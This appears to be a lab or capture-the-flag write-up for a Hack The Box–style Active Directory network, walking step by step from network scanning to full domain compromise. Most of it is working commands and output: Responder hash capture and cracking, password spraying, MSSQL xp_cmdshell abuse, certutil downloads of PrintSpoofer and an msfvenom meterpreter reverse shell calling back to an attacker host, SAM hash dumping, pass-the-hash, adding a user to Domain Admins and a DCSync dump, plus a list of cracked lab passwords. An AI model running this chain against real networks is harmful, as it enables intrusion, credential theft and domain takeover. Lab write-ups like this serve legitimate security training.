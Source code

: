 We first run an NMAP scan on the network
```bash
nmap -sC -sV 172.16.7.0/24 -oA nmap
```

DC01 - 172.16.7.3
```
PORT     STATE SERVICE       VERSION                                                           
53/tcp   open  domain        Simple DNS Plus                                                   
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-04 10:37:50Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: INLANEFREIGHT.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: INLANEFREIGHT.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
```

MS01 - 172.16.7.50
```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

SQL01 - 172.16.7.60
```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
```

---

We need to start by getting a foothold in the domain. We need a user/password.
For this we can run responder on the attack host.

```bash
responder -I ens224
```

I let it run and after some time it captures a hash for the user `AB920`. The hash is saved in `/usr/share/responder/logs`. We can try to crack the hash with hashcat. Since it's an NTLM hash we use mode 5600.

```bash
hashcat -m 5600 ab920hash /usr/share/wordlist/rockyou.txt
```
The hash cracks and the cleartext password for `AB920` is `weasal`.

Next we can check what we can do with this user
```bash
sudo crackmapexec winrm 172.16.7.0/24 -u AB920 -p weasal

WINRM       172.16.7.60     5985   NONE             [*] None (name:172.16.7.60) (domain:None)
WINRM       172.16.7.50     5985   NONE             [*] None (name:172.16.7.50) (domain:None)
WINRM       172.16.7.50     5985   NONE             [*] http://172.16.7.50:5985/wsman
WINRM       172.16.7.60     5985   NONE             [*] http://172.16.7.60:5985/wsman
WINRM       172.16.7.3      5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:INLANEFREIGHT.LOCAL)
WINRM       172.16.7.3      5985   DC01             [*] http://172.16.7.3:5985/wsman
WINRM       172.16.7.50     5985   NONE             [+] None\AB920:weasal (Pwn3d!)
WINRM       172.16.7.60     5985   NONE             [-] None\AB920:weasal
WINRM       172.16.7.3      5985   DC01             [-] INLANEFREIGHT.LOCAL\AB920:weasal
```

The output shows that with the `AB920` user can we win-rm to 172.16.7.50.
```bash
evil-winrm -u AB920 -p weasal -i 172.16.7.50
```
This gives us the flag `aud1t_gr0up_m3mbersh1ps!`.

Since we have a user we can try to enumerate other users with crackmapexec.
```bash
sudo crackmapexec ldap 172.16.7.3 -u AB920 -p weasal --users > user.list
```

This outputs the users into a file but we need to clean it up.

```bash
cat user.list | awk '{print $5}' > cleanuser.list
```
We now only have the usernames in the list. We can try to password spray these users with a simple standard password.

```bash
sudo crackmapexec smb 172.16.7.3 -u cleanuser.list -p Welcome1
```
The output shows that the username `BR086` uses the password `Welcome1`.

I again try to list all the systems to which I can winrm with the `BR086` users. But this time there are none. Maybe I can access SMB with this account.
```bash
sudo crackmapexec smb 172.16.7.0/24 -u BR086 -p Welcome1
```
The output is success!

When enumerating shares with the `--shares` flag in cme. I can see that `DC01` hosts a Department Shares share. This can be interesting so I decided to download this share.

```bash
sudo crackmapexec smb 172.16.7.3 -u BR086 -p Welcome1 -M spider_plus -o DOWNLOAD_FLAG=True
```

In the Department Share / IT / Private / Development/ web.config file we can find credentials for the `netdb` user. 

Now that we have a user and password for the SQL server we can use impacket-MSSQLclient.py. 

```bash
mssqlclient.py INLANEFREIGHT.LOCAL/netdb:'D@ta_bAse_adm1n!'@172.16.7.60
```

We enable `xp_cmdshell` and check the privileges
```bash
enable_xp_cmdshell
xp_cmdshell whoami /priv
```
It shows that we have the  `SeImpersonatePrivilege` enabled. This means we can use PrintSpoofer for example to elevate our privileges.

I first create a meterpreter payload using msfvenom
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.241 LPORT 4444 -f exe > shell.exe
```
I place this shell on the SQL machine using the certutil to download it together with the printspoofer exploit. 

```powershell
SQL> xp_cmdshell "certutil.exe -urlcache -f http://172.16.7.240/PrintSpoofer.exe c:\users\Public\PrintSpoofer.exe"
SQL> xp_cmdshell "certutil.exe -urlcache -f http://172.16.7.240/shell.exe  c:\users\Public\shell.exe"
```

Then I start a multi/handler in metasploit

```bash
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.14.241
set lport 4444 
run
```

Now I can execute the shell with the printspoofer exploit to get a elevated shell
```powershell
SQL> xp_cmdshell c:\users\Public\PrintSpoofer.exe -c "c:\users\Public\shell.exe"
```

Now that we have a meterpretrer session I can dump the SAM database with hashdump.

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070
```

Now we have an administrator hash. 

With this administrator hash we can use evil-winrm to get a admin shell on the MS01 machine.

```bash
evil-winrm -u Administrator -H bdaffbfe64f1fc646a3353be1c2c3c99 -i 172.16.7.50
```


The next question asks us to find the user who has GenericAll rights over the Domain Admin group.
To find out who this is we can use bloodhound.

To collect data for bloodhound we use sharphound. I need to use sharphound v1.0.2 because it won't work if I don't use it.
https://github.com/SpecterOps/SharpHound/releases/tag/v1.0.2

I place the SharpHound on MS01 and try to run it. It fails for some reason. I then try to run it from a RDP session. To do this I need to first enable passwordless login (I login with the admin hash). This is easy since I already have an admin shell with winrm.
```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

I then need to add an SSH tunnel for my proxychains
```
ssh -D 9050 htb-student@<attack-box-ip>
```

```bash
proxychains xfreerdp /u:administrator /pth:bdaffbfe64f1fc646a3353be1c2c3c99 /v:172.16.7.50
```

Now the sharphound.exe does work and it gives me a zip file. I move this zipfile to the pwnbox to upload it in bloodhound. (neo4j:neo4j).

Next we can check under the analysis tab, the shortes path to domain admin. It shows that user `CT059` has GenericAll rights over the Domain Admins group. This means that if we control the CT059 user, we can add ourself to that group.

To get the password for this user I use Inveigh.ps1 (responder on Windows) to intercept the NTLM hashes. 

```powershell
Import-Module .\Inveigh.ps1
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -HTTPS Y -Proxy Y -FileOutput Y 
```

It gives me the hash for user `CT059` and after cracking it with hashcat mode 5600 we get the password `charlie1`

On the RPD session on MS01 we can now open a CMD shell with `runas` to get a shell in the context of the `CT059` user to add ourself to the domain admin group

```powershell
runas /netonly /user:CT059 powershell.exe
Net group "Domain Admins" ct059 /add /domain

The request will be processed at a domain controller for domain INLANEFREIGHT.LOCAL.                                                                                                                                                            The command completed successfully.  
```

We now have a user who is in the domain admins group and we can now perfom a dcsync attack with this user.

```bash
secretsdump.py -outputfile 'dcsync.txt' 'INLANEFREIGHT.LOCAL/CT059:charlie1@172.16.7.3'
```

We now have all the user hashes including the krbtgt hash.


```
ab920:weasal
br086:Welcome1
ct059:charlie1
netdb:D@ta_bAse_adm1n!
Administrator:bdaffbfe64f1fc646a3353be1c2c3c99
```